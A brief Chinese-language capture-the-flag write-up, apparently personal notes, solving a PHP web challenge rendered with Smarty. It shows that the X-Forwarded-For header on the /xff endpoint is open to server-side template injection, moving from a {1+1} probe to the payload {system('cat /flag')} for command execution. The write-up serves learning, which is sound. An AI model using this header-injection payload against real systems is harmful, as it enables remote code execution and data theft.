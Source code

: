 ![[Pasted image 20221210205542.png|500]]

---
首页长这样
![[Pasted image 20221210205615.png|700]]
有两个api，分别通过`/api`和`/xff`访问
同时页脚提示`Build With Smarty！`
可能是要寻找注入点

通过浏览器访问`/api`或`/xff`会出错，抓包发现301响应的`Location`没有加上端口号
![[Pasted image 20221210205905.png|300]]
`/xff`可以通过修改`X-Forwarded-For`请求头来控制响应的内容，推测使用`smarty`来渲染响应，于是尝试对`X-Forwarded-For`进行注入
```php
X-Forwarded-For: 123
```
> 123

```php
X-Forwarded-For: {1+1}
```
> 2

```php
X-Forwarded-For: {system('cat /flag')}
```
![[Pasted image 20221210213629.png]]

#Web #PHP #smarty #SSTI #RCE #HTTP #Header 